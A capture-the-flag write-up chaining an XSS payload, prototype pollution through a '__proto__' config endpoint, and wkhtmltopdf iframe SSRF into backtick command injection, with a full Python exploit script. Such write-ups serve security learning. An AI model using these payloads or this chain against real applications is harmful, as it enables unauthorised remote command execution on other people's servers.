 ```yaml
---
ai_date: 2025-04-27 05:26:08
ai_summary: XSS vulnerability via `safe` filter bypass, also prototype pollution allowing SSRF exploitation through PDF generation
ai_tags:
  - xss
  - prototype-pollution
  - ssrf
created: 2025-03-02T05:54
points: 600
solves: 6
updated: 2025-07-14T09:46
---
```


`| safe` bypasses safety checks, this is definitely a XSS attack vector.

```html
<div class="box-left">
	{{ userAvatarUrl | renderUrlAsAvatar | safe }}
</div>
```

After looking a bit, my `userAvatarUrl` has to pass the url check.

```js
function isValidHttpUrl(url) {
    if (typeof url !== "string") return false;
    try {
        const parsedUrl = new URL(url);
        return parsedUrl.protocol === "http:" || parsedUrl.protocol === "https:";
    } catch (e) {
        return false;
    }
}
```

Well we can simply bypass it with this.

```
http://qwd.w?<img onerror='alert(1)' src=0>
```

But wait, the image itself is again generated from somewhere else.

```js
userData.getAvatarUrl = async function () {
	// Lazy loading pattern
	if (typeof this.avatarUrl == 'undefined') {
		// Trick: checking if the Github handle is valid by verifying the existence of a profile pic
		let isValidGithubHandle;
		try {
			const githubProfilePicUrl = `https://github.com/${this.github}.png`;
			isValidGithubHandle = (await axios.get(githubProfilePicUrl, {maxRedirects: 2})).status === 200;
		} catch {
			isValidGithubHandle = false;
		}
		this.avatarUrl = isValidGithubHandle ? `https://github.com/${this.github}.png` : 'undefined';
	}
	return this.avatarUrl;
};
```

Some minor changes should make it still work.

```
http://github.com/ octo-kumo.png?<img onerror='alert(1)' src=0> .png
```

Oh wait! There's another filter!

```js
function isLikelyValidGitHubHandle(username) {
    if (typeof username !== "string") return false;
    const regex = /^[a-zA-Z0-9]([a-zA-Z0-9-]{0,37}[a-zA-Z0-9])?$/;
    return regex.test(username);
}
```
## prototype pollution
Wait... there's prototype pollution?

```js
app.post('/set-config', [
	body('config')
		.trim()
		.isString()
		.notEmpty()
		.withMessage('Config must be a non-empty string.'),
	body('key')
		.trim()
		.isString()
		.notEmpty()
		.withMessage('Config must be a non-empty string.'),
	body('val')
		.trim()
		.isString()
		.notEmpty()
		.withMessage('Config must be a non-empty string.'),
],
async (req, res) => {
	const errors = validationResult(req);
	if (!errors.isEmpty()) {
		return res.status(400).json({errors: errors.array()});
	}
	const cfg = req.body.config;
	if (cfg in config) {
		const key = req.body.key;
		const val = req.body.val;
		config[cfg][key] = val;
		res.json({message: `Mode set to ${val}`});
	} else {
		return res.status(400).json({errors: [`Invalid configuration ${val}`]});
	}
});
```

Wait... prototype pollution can bypass the hard regex filters!

```js
userData.getAvatarUrl = async function () {
	// Lazy loading pattern
	if (typeof this.avatarUrl == 'undefined') {
		// Trick: checking if the Github handle is valid by verifying the existence of a profile pic
		let isValidGithubHandle;
		try {
			const githubProfilePicUrl = `https://github.com/${this.github}.png`;
			isValidGithubHandle = (await axios.get(githubProfilePicUrl, { maxRedirects: 2 })).status === 200;
		} catch {
			isValidGithubHandle = false;
		}
		this.avatarUrl = isValidGithubHandle ? `https://github.com/${this.github}.png` : 'undefined';
	}
	return this.avatarUrl;
};
```

Now we just need a payload here.

```js
function renderUrlAsAvatar(url) {
    const imgUrl = isValidHttpUrl(url) ? url : `https://i.pravatar.cc/400?u=${Math.floor(Math.random() * 1000) + 1}`;
    return `<div style="border-radius: 50%;overflow: hidden;width: 100%;"><img src="${imgUrl}" style="width: 100%; height: 100%; object-fit: cover;"/></div>`
}
```

This should work pretty well.

```
"http://w.w?\" onerror=\"alert(1)"
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1740915439/2025/03/4398a7878da7e227f57d0b8eca92489d.png)

It worked!

So we have XSS, now what?

## PDF SSRF

Turns out **wkhtmltopdf:0.12.6** has a 9.8 vuln [NVD - CVE-2022-35583](https://nvd.nist.gov/vuln/detail/CVE-2022-35583).

I couldn't find PoCs on it, but I think the gist of it is to use iframes.

If we get a SSRF from `/make-card-pdf` back onto `/make-card-pdf` but with malicious inputs, we have free shell.

There is no validation on `/make-card-pdf`.

A naïve solution is complete.

```python
print(prototype('avatarUrl', 'http://yun.ng?"><iframe src="http://127.0.0.1:1984/make-card-pdf?data=\'`ls`\' ce79f83f719f29dab8dd7818048fc99a"></iframe>'))
```

But it doesn't work.

```
Error: Failed to load http://127.0.0.1:1984/make-card-pdf?data='%60ls%60' ce79f83f719f29dab8dd7818048fc99a, with network status code 204 and http status code 401 - Host requires authentication
```

Turns out I had to escape the space.

But after a lot of experimenting I couldn't get the output of the command to display in the pdf.

So I decided to just overwrite (or not) a previous PDF with the output of `/usr/bin/echo-flag`

```python
prototype('avatarUrl', 'http://yun.ng?innocent')
cardId1 = makeCard()
print("target cardId:", cardId1)
cardId = makeCard()
prototype('avatarUrl', 'http://yun.ng?"><iframe src="http://localhost:1984/make-card-pdf?data=\'`/usr/bin/echo-flag>/home/chall/storage/'+cardId1+'.pdf`\'%20'+cardId+'" width="600" height="500"></iframe><!--')
cardId = makeCard()
print("Card ID:", cardId)
downloadCard(cardId)

flag = requests.get(target + '/download-card?email=ww@ww.com&cardId='+cardId1).text
print(flag)
```

```flag
ATHACKCTF{Spacele$$_$$urfing_On_Polluted_$hells}
```


```python
import re
import requests

target = 'http://localhost:14569/'

# target = 'http://localhost:2025/'


def prototype(key, val):
    return requests.post(target + '/set-config', data={
        'config': '__proto__',
        'key': key,
        'val': val
    }).text


def makeCard():
    text = requests.post(target + '/create-card', data={
        'firstName': 'yun',
        'lastName': 'yun',
        'email': 'yun@yun.ng',
        'github': 'octo-kumo',
        'company': 'Yun'
    }).text
    return re.search(r'cardId" value="([0-9a-f]+)', text).group(1)


def downloadCard(cardId):
    return requests.get(target + '/download-card', params={
        "cardId": cardId,
        "email": "yun@yun.ng"
    }).content


prototype('avatarUrl', 'http://yun.ng?innocent')
cardId1 = makeCard()
print("target cardId:", cardId1)
cardId = makeCard()
prototype('avatarUrl', 'http://yun.ng?"><iframe src="http://localhost:1984/make-card-pdf?data=\'`/usr/bin/echo-flag>/home/chall/storage/'+cardId1+'.pdf`\'%20'+cardId+'" width="600" height="500"></iframe><!--')
cardId = makeCard()
print("Card ID:", cardId)
downloadCard(cardId)

flag = requests.get(target + '/download-card?email=ww@ww.com&cardId='+cardId1).text
print(flag)
```